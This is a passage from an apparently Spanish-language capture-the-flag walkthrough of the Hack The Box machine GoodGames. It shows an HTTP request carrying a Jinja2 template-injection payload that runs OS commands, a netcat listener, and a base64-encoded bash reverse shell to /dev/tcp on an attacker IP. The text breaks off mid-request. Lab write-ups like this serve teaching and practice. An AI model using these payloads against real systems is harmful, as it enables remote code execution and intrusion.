 ```
POST /settings HTTP/1.1

Host: internal-administration.goodgames.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 85

Origin: http://internal-administration.goodgames.htb

Connection: keep-alive

Referer: http://internal-administration.goodgames.htb/settings

Cookie: session=.eJwljjtqBTEMAO_iOoUl2frsZRbLlkgIJLCfKuTub-GVM83MX9nziPOzbNdxx0fZv1bZipKvsZhIqampV8KFQJBNwNAHkctwcq0yI7zJRHM2a6w0wFtAWvPBIcANx-SBKMFdpAc4EIMF8ByhAtglclbxniHVUtSkPCP3Gcf7Bh6c55H79fsdP48gY4Yn0Ss2c09zEtIEnACr60qzmmpe_l9VZT34.Z5pGiQ.bPlK4zFkG7YSTe5k_dNkiz-txIY

Upgrade-Insecure-Requests: 1

Priority: u=0, i

name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Como podemos ejecutar comandos de forma remota, lo que vamos a hacer es crearnos una reverse shell hacia nuestro sistema para hacerlo más comodo y tener acceso total por terminal:

`nc -nlvp 1234`

A continuación, ponemos en base64 nuestra reverse shell (adaptad el puerto y la dirección IP a vuestro caso particular):

```
echo "bash -i >& /dev/tcp/10.10.14.27/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy8xMjM0IDA+JjEK
```

Ahora con la reverse shell en base64 `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy8xMjM0IDA+JjEK`, procedemos a ejecutarlo en el servidor actualizando la petición:

```
POST /settings HTTP/1.1

Host: internal-administration.goodgames.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

```